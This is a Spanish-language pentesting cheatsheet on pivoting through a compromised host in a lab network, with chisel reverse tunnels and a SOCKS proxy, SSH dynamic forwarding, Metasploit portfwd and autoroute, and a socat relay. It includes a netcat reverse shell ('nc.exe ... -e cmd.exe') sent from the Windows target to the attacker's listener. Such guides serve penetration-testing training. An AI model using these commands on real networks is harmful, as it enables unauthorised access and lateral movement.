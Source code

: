 ```yaml
---
title: "Pivoting"
draft: false
images: []
description: "Pivoting cheatsheetwith chisel, socat and metasploit"
lead: "Pivoting cheatsheetwith chisel, socat and metasploit"
menu:
  docs:
    parent: "Privesc"
weight: 100
toc: true
---
```



## <span style="color:#d32e9d">Diagrama De Red </span>

Vamos a utilizar el diagrama a continuación como ejemplo para la utilizacion de las distintas herramientas. Donde Kali es nuestra máquina, Ubuntu es el activo que utilizaremos para pivotar, y Windows es el activo al que se desea llegar.

<img src="pivoting.png">

---
## <span style="color:#d32e9d"> Port Forwarding </span>

Se crea una conexión entre un puerto local y un solo puerto en un objetivo, a través de un host comprometido. Esta técnica tiende a ser más rápida y más confiable que el proxy, pero solo nos permite acceder a un solo puerto (o un pequeño rango) en un solo dispositivo de destino. 

### <span style="color:#d32e9d">Chisel Port Forwarding</span>

**Kali Machine** - 192.168.100.118
```bash
chisel server --reverse -p 1234
```

* reverse: permite a los clientes establecer conexiones reverse tunneling
* p: puerto de escucha http

**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```bash
chisel client 192.168.100.118:1234 R:127.0.0.1:80:10.0.0.3:80
```

* R: \<local-interface\>:\<local-port\>:\<remote-host\>:\<remote-port\>


### <span style="color:#d32e9d">Metasploit Portfwd</span>

In a meterpreter session

```bash
portfwd add -l 1234 -p 3389 -r 10.10.10.10
```
* l: puerto de escucha local
* p: puerto remoto a conectarse
* r: host remoto a conectarse
---

## <span style="color:#d32e9d">Proxying/Tunneling</span>

Cuando hablamos de proxy, creamos una conexión a través de una máquina comprometida para enrutar todo el tráfico deseado a la red de destino. Un proxy es útil si deseamos redirigir mucho tráfico a nuestra red de destino, por ejemplo, un escaneo NMAP o para acceder a múltiples puertos en múltiples máquinas diferentes.

### <span style="color:#d32e9d">Chisel Socks Proxy</span>

**Kali Machine** - 192.168.100.118
```bash
chisel server --reverse -p 1234
```

* reverse: permite a los clientes establecer conexiones reverse tunneling
* p: puerto de escucha http

**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```bash
chisel client 192.168.100.118:1234 R:socks
```

### <span style="color:#d32e9d">SSH Port Dynamic Forwarding</span>

**Kali Machine** - 192.168.100.118
```bash
ssh kryot@10.0.0.2 -D 1337
```
* D: puerto dinámico local

**Burpsuite** 
```bash
Configure User Options - SOCKS Proxy
Host 127.0.0.1
Port 1337
```
**Proxychains**
```bash
nano /etc/proxychains.conf
```

### <span style="color:#d32e9d">SOCAT Tunneling</span>

**Kali Machine** - 192.168.100.118
```bash
nc -lvnp 7878
```
**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```bash
socat TCP-LISTEN:7777,reuseaddr,fork tcp:192.168.100.118:7878
```
* TCP-LISTEN: establece puerto en escucha
* reuseaddr: permite reutilizar el puerto después de la finalización del programa
* fork: indicamos que socat pueda aceptar más de una conexión.

**Windows Machine** - 10.0.0.3
```bash
nc.exe 10.0.0.2 7777 -e cmd.exe
```
### <span style="color:#d32e9d">Metasploit Autoroute</span>

In a meterpreter session

```bash
run autoroute -s 10.0.0.3 -n 255.255.255.0
```
* s: host
* n: máscara de red - default 255.255.255.0
